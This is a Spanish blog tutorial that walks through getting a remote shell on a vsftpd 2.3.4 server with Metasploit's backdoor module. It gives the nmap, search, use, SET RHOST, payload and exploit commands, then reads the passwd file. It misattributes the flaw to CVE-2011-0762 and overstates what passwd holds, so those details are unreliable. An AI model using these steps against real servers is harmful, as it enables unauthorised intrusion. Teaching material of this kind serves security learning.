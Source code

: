 +++
date = "2016-10-20"
title = "Explotación de vulnerabilidad CVE-2011-0762 con Metasploit en VSFTPD v2.3.4"
author = "Javier Olmedo"
toc = false
+++

[![/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_banner.png](/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_banner.png)](/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_banner.png)

En esta ocasión, os muestro como podemos **explotar una vulnerabilidad con el Framework de seguridad Metasploit**.

En concreto explotaremos la vulnerabilidad **CVE-2011-0762** en el servicio **VSFTPD v2.3.4** para conseguir una shell e interactuar con el servidor vulnerado.

Está vulnerabilidad **tiene ya 5 años y es muy antigua**, aunque nos podemos seguir encontrando algún servidor que nos permita **«jugar»**, la finalidad de esta entrada es aprender como usar los principales comandos de Metasploit.

Antes de empezar a usar Metasploit, recomiendo que actualicemos los repositorios con los siguientes comandos:

```bash
apt-get update
apt-get upgrade
apt-get dist-upgrade
```

También es conveniente **actualizar la base de datos de exploits**, aunque como he comentado, esta vulnerabilidad es demasiado antigua y seguro que la tenemos lista para usar.

```bash
msfupdate
```

Para empezar a usar Metasploit usaremos el comando **msfconsole**, y comprobaremos si la vulnerabilidad que queremos explotar está ejecutándose en el servidor, **podemos usar nmap**.

```bash
nmap -sV -p [PUERTO] [IP]
```

[![/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_001.png](/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_001.png)](/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_001.png)

Podemos ver como en el puerto 21 está ejecutándose vsftpd 2.3.4

Muestro una captura de pantalla en la cual os indicaré los pasos que he seguido para explotarla.

[![/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_002.png](/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_002.png)](/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_002.png)

1. Primero busco el nombre del exploit para el servicio vsftpd, esto se puede hacer con el comando **search** seguido del servicio, ejemplo:

```bash
search vsftpd
```

Este comando **nos devuelve** los módulos (exploits) que se identifican con ese servicio, es decir, nos **muestra todos los exploit que tenemos disponibles para usar contra ese servicio**, ademas nos muestra información adicional como por ejemplo la fecha en la cual fue descubierta.

```bash
exploit/unix/ftp/vsftpd_234_backdoor
```

2.  Mediante el comando **use** seguido del nombre del módulo le indicaremos cual es el exploit elegido para explotar la vulnerabilidad, acto seguido usaremos el comando **show options** para ver las opciones de configuración que tenemos disponible.

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
show options
```

Si nos fijamos en la captura anterior, **existen 2 opciones**:

- La opción **RHOST** para indicar la IP o hostname del servidor.
- La opción **RPORT** que por defecto nos marca 21 (puerto por defecto de este servicio)

3. En este paso, le indicamos a Metasploit la IP del servidor, mediante el comando **SET RHOST** y a continuación la **IP**.

```bash
SET RHOST [IP]
```

4. Mostraremos los **payloads** (acción que ejecutaremos en caso que la vulnerabilidad sea explotada de manera exitosa), en este caso queremos una shell para interactuar con el servidor.

```bash
show payloads
```

5. A continuación le indicamos el payload a usar.

```bash
USE PAYLOAD cmd/unix/interact
```

6. Ya tenemos todo preparado para lanzar nuestro ataque, el paso final es explotarla mediante el comando exploit.

```bash
exploit
```

[![/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_003.png](/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_003.png)](/images/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4/explotacion-de-vulnerabilidad-cve-2011-0762-con-metasploit-en-vsftpd-v2-3-4_003.png)

7. Este **paso es para comprobar que efectivamente hemos vulnerado el servidor**, por ejemplo mostraré el fichero **passwd**, en este fichero están **registradas las cuentas de usuarios**, así como las claves de accesos y privilegios.

Este fichero es conocido por ser **la primera línea de defensa de un sistema linux** antes accesos no deseados.

Saludos!!!